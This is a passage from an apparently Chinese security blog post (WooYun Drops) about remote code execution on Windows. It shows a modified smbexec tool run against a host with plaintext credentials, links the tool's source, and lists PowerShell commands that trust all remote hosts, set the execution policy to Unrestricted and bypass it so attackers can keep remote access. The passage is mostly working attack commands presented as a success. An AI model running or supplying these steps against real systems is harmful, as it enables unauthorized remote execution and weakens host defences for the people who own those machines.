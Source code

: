 （2）远程执行

```
test.exe 192.168.40.137 test testtest whoami c$

```

如图6

![这里写图片描述](http://drops.javaweb.org/uploads/images/5f30a6fb15e4e6d6ff739067ec8d2062e16ff5ac.jpg)

**最终我们通过改造的smbexec，突破目标主机限制，成功远程执行程序。**

_程序源码下载链接：_

[smbexec_source.zip](http://static.wooyun.org//drops/20150724/2015072404442894558smbexec_source.zip)

0x08 补充
=====

1、powershell remoting
---------------------

实现在目标主机远程执行程序后，可对目标主机开放powershell remoting，用作远程连接

条件：

```
远程连接会有痕迹
本机要开启winRM服务

```

命令汇总：

列出所有远程信任主机

```
powershell Get-Item WSMan:\localhost\Client\TrustedHosts

```

设置信任所有主机

```
powershell Set-Item WSMan:\localhost\Client\TrustedHosts -Value * -Force 

```

设置允许运行ps1文件

```
powershell Set-ExecutionPolicy Unrestricted 

```

执行test.ps1文件

```
powershell -ExecutionPolicy Bypass -File test.ps1 

```
